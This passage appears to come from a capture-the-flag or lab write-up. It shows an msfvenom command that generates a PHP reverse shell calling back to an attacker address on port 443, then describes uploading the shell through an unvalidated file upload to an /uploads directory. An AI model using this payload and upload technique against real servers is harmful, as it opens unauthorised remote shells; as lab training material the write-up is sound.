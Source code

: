We generate a php reverse shell.

```bash
root@kali:~$ msfvenom -p php/reverse_perl lhost=192.168.179.1 lport=443 -o z.php
```

We uploaded the reverse shell to the server, the upload was successful because there is not type of validation to prevent uploading arbitrary files.

![](/assets/images/hackme/screenshot-19.png)

![](/assets/images/hackme/screenshot-20.png)

We can note that the file was uploaded in the **/uploads** directory.

![](/assets/images/hackme/screenshot-21.png)
